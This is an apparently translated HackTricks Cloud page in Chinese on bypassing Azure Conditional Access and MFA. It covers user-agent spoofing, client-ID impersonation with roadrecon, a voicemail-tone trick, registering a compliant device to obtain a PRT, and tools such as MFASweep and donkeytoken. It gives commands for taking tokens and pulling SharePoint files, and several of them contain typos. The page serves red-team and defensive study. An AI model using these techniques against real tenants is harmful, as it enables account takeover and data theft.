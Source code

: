# Az - Conditional Access Policies / MFA Bypass

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFTs收藏](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Azure条件访问策略是在Microsoft Azure中设置的规则，根据特定**条件**强制执行对Azure服务和应用程序的访问控制。这些策略帮助组织通过在正确的情况下应用正确的访问控制来保护其资源。\
条件访问策略基本上**定义了**谁可以从哪里以及如何访问**什么**。

以下是一些示例：

1. **登录风险策略**：当检测到登录风险时，可以设置此策略要求多重身份验证（MFA）。例如，如果用户的登录行为与其正常模式不同，例如从不同国家登录，则系统可以提示进行额外的身份验证。
2. **设备合规策略**：此策略可以限制对Azure服务的访问仅限于符合组织安全标准的设备。例如，只允许从具有最新防病毒软件或运行特定操作系统版本的设备访问。

## 条件访问策略绕过

可能存在一个条件访问策略正在**检查一些可以轻松篡改的信息，从而绕过策略**。例如，如果策略配置了MFA，攻击者将能够绕过它。

### 设备平台 - 设备条件

可以基于**设备平台**（Android、iOS、Windows、macOS）设置条件，但是，这是基于**用户代理**，因此很容易绕过。即使**使所有选项强制执行MFA**，如果您使用一个**它不认识的用户代理**，您将能够绕过MFA。

### 位置：国家、IP范围 - 设备条件

当然，如果这在条件策略中设置，攻击者可以简单地在**允许的国家**使用**VPN**，或尝试找到一种方式从**允许的IP地址**访问以绕过这些条件。

### Office365客户端应用

您可以指示，如果客户端**从浏览器访问Office 365应用，则需要MFA**：

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

要绕过此设置，可以假装您从桌面应用程序（例如在以下示例中登录到Microsoft Teams）登录到应用程序，这将绕过保护：
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
由于Microsoft Teams应用程序拥有许多权限，您将能够利用该访问权限。

{% hint style="success" %}
您可以在roadtools的数据库中找到具有预定义Office365权限的更多公共应用程序的ID：
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

这种攻击特别有趣，因为默认情况下，公共Office365应用程序将具有访问某些数据的权限。

### 其他应用

默认情况下，用户创建的其他应用程序将不具备权限，可能是私有的。\
但是，用户也可以创建**公共应用程序**，授予它们一些**权限**。

一个潜在的场景是，当用户使用**浏览器**访问一个应用程序时需要**MFA**，可能是因为它是一个Web应用程序，因此这将是唯一的方式，如果有一个**代理应用程序** - 一个允许**代表用户与其他应用程序交互的应用程序**，用户可以**登录代理应用程序**，然后通过这个代理应用程序**登录最初受到MFA保护的应用程序**。

查看[**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep)和[**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken)技术。

## 其他 Az MFA绕过

### 铃声

Azure MFA的一个选项是**在配置的电话号码接收电话**，用户将被要求**发送字符 `#`**。

{% hint style="danger" %}
由于字符只是**音调**，攻击者可以**篡改**电话号码的**语音邮件**消息，将**音调 `#`**配置为消息，然后，在请求MFA时确保**受害者的电话忙线**（拨打电话），以便Azure的呼叫被重定向到语音邮件。
{% endhint %}

### 符合设备

策略通常要求符合设备或MFA，因此**攻击者可以注册一个符合设备**，获取**PRT**令牌，**以此方式绕过MFA**。

首先在Intune中注册一个**符合设备**，然后使用以下方法获取**PRT**：
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
在以下页面查找有关这种攻击的更多信息：

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## 工具

### [roadrecon](https://github.com/dirkjanm/ROADtools)

获取所有策略
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep 是一个 PowerShell 脚本，它尝试使用提供的一组凭据登录到各种 Microsoft 服务，并尝试识别是否启用了 MFA。根据条件访问策略和其他多因素身份验证设置的配置方式，一些协议可能最终会被留在单因素状态。它还具有对 ADFS 配置的额外检查，并且如果检测到，可以尝试登录到本地 ADFS 服务器。
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token是一组旨在帮助需要验证条件访问策略、测试启用了双因素身份验证的Microsoft门户等安全顾问的函数集合。
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**测试每个门户**，看是否可以**在没有 MFA 的情况下登录**：
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
由于Azure门户没有受到限制，因此可能从门户端点收集令牌以访问先前执行中检测到的任何服务。在这种情况下，已识别出Sharepoint，并请求访问它的令牌：
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

假设令牌具有 Sites.Read.All 权限（来自 Sharepoint），即使由于 MFA 无法从 web 访问 Sharepoint，仍然可以使用该令牌访问生成的文件：
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## 参考资料

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
